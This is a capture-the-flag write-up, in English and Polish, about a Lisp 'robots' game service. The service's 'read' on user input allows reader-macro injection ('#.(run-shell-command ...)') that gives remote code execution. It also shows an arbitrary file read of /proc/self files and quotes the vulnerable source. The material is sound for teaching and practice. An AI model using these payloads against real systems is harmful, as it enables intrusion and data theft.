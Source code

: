 And we started with analysis of this code to check for some vulnerabilities.
There are only 3 places where we provide input so we focused on those.
They were using `read` function so we tried to find if it can be exploited.
Then we found this document: http://irreal.org/blog/?p=638

It was exactly what we needed!
By sending payloads:

```
#.(lisp_code)
```

We get remote code execution.
With this we checked how to execute shell commands from LISP and used:

```
#.(run-shell-command "ls")
```

To find the flag in `/getflag/flag` and also a binary `getflag/read_flag` with rights to read it.
We run it:

```
#.(run-shell-command "./getflag/read_flag")
```

To read the flag.

###PL version

Dostajemy adres IP do połączenia za pomocą netcata pod którym możemy zagrać w grę.
Gra to: https://en.wikipedia.org/wiki/Robots_%28computer_game%29
Celem gry jest unikanie goniących nas robotów i powodowanie żeby roboty wpadały na siebie.
Po wygraniu gry dostajemy możliwość przeczytania zawartości pliku z dysku.

Możliwość czytania z plików wykorzystujemy do przeczytania:

```
/proc/self/environ
/etc/rsyslog.conf
/proc/self/cmdline
/proc/self/exe
```

Czytanie `cmdline` było bardzo ciekawe ponieważ powiedziało nam że gra jest napisana w LISPie a także jak nazywa się skrypt.
Dzięki temu mogliśmy odczytać źródło skryptu:

```lisp
> robots.lisp
(import 'charset:utf-8 'keyword)

; Original code: http://landoflisp.com/robots.lisp

; To get the flag you'll have to get a shell...

(defun readfile (file)
  (let ((in (open file :if-does-not-exist nil)))
    (when in
      (loop for line = (read-line in nil)
            while line do (format t "~a~%" line))
      (close in))))

(defun win ()
  (format t (colorize 'green "~%Congratulations, you won!!!"))
  (loop
    (format t "~%What do you want to do?")
    (format t "~%~{~a to read a file, ~a to play again, ~a to quit~}~%> "
            (mapcar (lambda (x) (colorize 'green x)) '("r" "c" "q")))
    (setq c (read))
    (ccase c
```